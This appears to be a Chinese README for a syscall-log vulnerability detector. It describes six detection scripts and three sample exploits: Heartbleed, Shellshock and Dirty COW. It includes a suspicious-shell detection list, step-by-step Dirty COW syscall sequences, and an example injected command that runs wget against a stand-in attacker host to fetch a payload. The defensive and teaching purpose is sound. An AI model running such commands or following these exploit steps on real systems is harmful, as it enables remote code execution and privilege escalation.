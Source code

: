# 分析脚本 ( ***To Be Expanded*** )
Scripts 下是六个 python 脚本以及对应的示例日志文件 , 分别用于检测不同的漏洞

### 0.1 HOW TO RUN
只需在 Analyzer/Scripts/XXXX 目录下用 python3 执行对应 python 脚本即可

### 0.2 OUTPUT FORMAT
```
============================================================
[!!!] High Risk Alert: Potential [Race Condition (Dirty COW-like)] vulnerability detected!
      - Process ID: 13612
      - Alert Line: 20
      - Evidence: Detected 10 madvise calls and 10 writes to /proc/self/mem within the window
      - Full Log Entry: {"ts": 500.19, "event": "WRITE", "pid": 13612, "filename": "/proc/self/mem", "buf": "rootpl"}
============================================================
```
```
============================================================
[!!!] Medium Risk Alert: Potential [Memory Corruption (Weak Signal)] vulnerability detected!
      - Process ID: -1
      - Alert Line: 2
      - Evidence: Detected abnormally large page allocation via mmap: 2048 pages
      - Full Log Entry: {"ts": 302, "pid": -1, "evt": "MMAP_SUM", "meta": {"count": 5, "max_pages": 2048}}
============================================================
```

### 1. AccessControl
- 检测是否有提权操作 ( PRIVILEGE_ESCALATION_EVENTS = {"SETUID", "SETGID", "SETREUID", "SETRESUID"} ) 且尝试设置uid为0 (root)
- 检测是否可能访问无权访问的文件 ( 包含 ../ 路径 , 或是在黑名单中的敏感文件 )

- ***Note : 文档中系统调用没有提及 SETUID 等可能的提权操作 , 这里只是假设存在格式形如 {"event":"SETUID", "uid":0} 的事件***

### 2. CodeInjection
- 检测是否使用 EXEC syscall 执行了可疑的 shell ( SUSPICIOUS_COMMANDS = { "/bin/sh", "/bin/bash", "/bin/csh", "/usr/bin/sh", "/usr/bin/bash", "sh", "bash"} )

### 3. ForkBomb
- 检测在一个时间窗口中是否出现了大量 fork 系统调用

### 4. InformationLeakage
- 检测是否在一个时间窗口中先出现了接收/读取 size 很小的数据 , 然后发送/写入 size 很大的数据

### 5. MemoryCorruption
- 强特征检测: 检测是否有 mprotect 调用 , 并将一块内存区域的权限标记为可执行 
- 弱特征检测: 检测是否有异常大的内存映射 , 但这只是一个弱特征 , 表示可能存在大的内存分配 , 而非确切的攻击行为

- ***Note : 文档中系统调用没有提及 MPROTECT 系统调用 , 这里假设存在格式形如 {"ts": <timestamp>, "event": "MPROTECT", "pid": <pid>, "perms": "PROT_READ|PROT_WRITE|PROT_EXEC"} 的事件***

### 6. RaceCondition
- 检测是否有高频、并发地调用 mmap , madvise , 和 write ( 针对 /proc/self/mem ) , 具体原理见下文

- ***Note : 文档中系统调用没有提及 MADVICE 系统调用 , 这里假设存在格式形如 {"ts": <timestamp>, "event": "MADVICE", "pid": <pid>, "advice": "MADV_DONTNEED"} 的事件***


---

# 恶意代码示例
MaliciousCode 下是三个典型的高危漏洞 
### Heartbleed
- 这是一个边界检查缺失导致的信息泄露漏洞。攻击者可以向服务器发送一个特制的心跳请求，请求一块很大的内存（比如64KB），但实际只发送了很小的数据。有漏洞的服务器不会检查请求长度和实际数据长度是否匹配，直接从内存中复制并返回64KB数据，这其中就可能包含服务器的私钥、用户会话、密码等敏感信息。
- Heartbleed触发时的序列:

  1. 服务器进程通过 read()/recvfrom() 接收到攻击者发来的恶意心跳包。

  2. OpenSSL库在内存中处理这个包时，由于逻辑缺陷，会读取到不该读取的内存区域。

  3. 服务器最终通过 write()/sendto() 将这块包含敏感信息的内存区域发送回攻击者。

### Shellshock
- 这是一个命令注入漏洞。Bash在处理某些特殊构造的环境变量时，会错误地将环境变量值中的字符串作为命令来执行。当一个程序（如网页服务器的CGI脚本）接收用户输入并将其设置为环境变量，然后调用Bash时，攻击者就可以远程执行任意命令。<br><br>由于 bash 问题已被修复 ，可能需要旧版本的 docker 才能正确演示

- Shellshock触发时的序列:

    1. Apache进程通过 read() 接收到一个包含恶意HTTP头的请求。

    2. Apache fork() 并准备通过 execve() 运行CGI脚本。在调用 execve() 之前，它会将HTTP头（如User-Agent）设置为环境变量。

    3. execve() 成功执行，Bash进程启动。

    4. Bash在初始化、解析环境变量时，触发了漏洞。

    5. 关键点: Bash进程内部会再次调用 fork() 和 execve() 来执行攻击者注入的命令（例如 /bin/sh -c 'wget http://attacker.com/payload'）。

### Dirty COW
- 这是一个Linux内核的竞争条件漏洞，允许本地低权限用户提权至root。漏洞在于内核内存子系统处理写时复制（Copy-on-Write, COW）机制时存在缺陷。攻击者可以利用这个缺陷，向一个只读的内存映射（例如一个由root拥有的文件 /etc/passwd）写入数据。 <br><br> ***警告***：请务必在专门的、可丢弃的虚拟机或Docker容器中运行此代码。虽然此PoC是本地的，但它利用的是内核级漏洞，在不安全的系统上运行可能导致系统不稳定。
- Dirty COW触发时的序列:

    1. 攻击者进程使用 mmap() 将一个只读文件（如 /etc/passwd）映射到内存中。

    2. 进程创建两个线程。

    3. 线程A: 在一个循环中，反复调用 madvise(addr, len, MADV_DONTNEED)。这个调用告诉内核“我不再需要这块内存了”，内核会丢弃它，但保留映射关系。下次访问时会重新从文件加载（触发COW）。

    4. 线程B: 同时，在另一个循环中，通过 open("/proc/self/mem", O_RDWR) 并 lseek() 到目标内存地址，然后 write() 尝试向这块只读映射写入数据。